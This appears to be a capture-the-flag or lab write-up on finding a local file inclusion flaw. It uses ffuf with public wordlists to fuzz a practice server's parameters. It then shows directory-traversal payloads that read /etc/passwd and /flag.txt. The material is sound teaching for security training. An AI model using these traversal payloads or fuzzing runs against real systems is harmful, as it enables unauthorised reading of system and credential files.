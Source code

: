 # Automated Scanning

#### Fuzz the web application for exposed parameters, then try to exploit it with one of the LFI wordlists to read /flag.txt

**Step 1** - Fuzz parameters:

* Use the [burp-parameter-names.txt](https://github.com/kafkaesqu3/fuzzing/blob/master/parameters/burp-parameter-names.txt) wordlist with the following command:
  * {% code overflow="wrap" %}
    ```bash
    ffuf -w burp-parameter-names.txt:FUZZ -u 'http://SERVER_IP:SERVER_PORT/index.php?FUZZ' -fs 2309
    ```
    {% endcode %}

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

**Step 2** - Fuzz LFI payloads:

* Use the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist:
  * {% code overflow="wrap" %}
    ```bash
    ffuf -w LFI-Jhaddix.txt:FUZZ -u 'http://SERVER_IP:SERVER_PORT/index.php?view=FUZZ' -fs 1935
    ```
    {% endcode %}

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Test one of the discovered payloads:

* Append the payload to the application URL:
  * {% code overflow="wrap" %}
    ```
    http://SERVER_IP:SERVER_PORT/index.php?view=../../../../../../../../../../../../../../../../../../../../../../etc/passwd
    ```
    {% endcode %}

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**Step 4** - Get the flag:

* Now simply substitute **/etc/passwd** for **/flag.txt**
  * `../../../../../../../../../../../../../../../../../../../../../../flag.txt`

<figure><img src="../../../.gitbook/assets/image (298).png" alt=""><figcaption></figcaption></figure>

And flag found!

